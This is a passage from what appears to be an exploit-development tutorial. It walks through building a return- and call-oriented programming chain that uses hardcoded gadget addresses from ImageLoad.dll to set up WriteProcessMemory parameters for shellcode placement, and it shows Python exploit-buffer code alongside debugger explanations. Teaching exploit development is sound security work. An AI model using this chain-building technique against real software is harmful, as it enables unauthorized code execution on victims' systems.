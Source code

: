 The value is then subtracted and the difference is placed in EAX! We have successfully loaded the address of where our shellcode will go, further down the stack, into EAX.

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM39.png" alt="">

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM40.png" alt="">

> Note, the address where our shellcode will go is denoted with NOPs in the above image for visual effect. This was done in the debugger to outline the process taken here.

The last step is to utilize the following ROP gadget to change the `lpBuffer` parameter placeholder to point to the legitimate parameter (which is the shellcode location down the stack).

```python
crash += struct.pack('<L', 0x10021bfb)    # mov dword [ecx+0x8], eax ; ret: ImageLoad.dll (non-ASLR enabled module)
```

Program execution reaches the gadget in question.

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM41.png" alt="">

As we can already see from the image above, `0x11111111` (which is the parameter placeholder for `lpBuffer`), is going to be what is overwritten with the contents of EAX (which contains the stack address which points to our shellcode.

State of the `lpBuffer` parameter placeholder before the instruction is stepped through.

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM42a.png" alt="">

After stepping through the instruction - we can see the `lpBuffer` parameter placeholder has been dynamically changed to the correct address!

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM43a.png" alt="">

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM44.png" alt="">

nSize
---

`nSize`, as you can recall from earlier, refers to the size of our region of memory we would like written in the process space. We would like the size of our shellcode to be about 0x180 bytes (384 decimal) - as this is more than enough for any type of shellcode.

Since ECX and EAX are being used for stack addresses - let's use another register for this parameter. Let's use EDX.

Parsing the application for gadgets, there is a nice one for adding directly to EDX in multiples of 0x20.

```python
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
```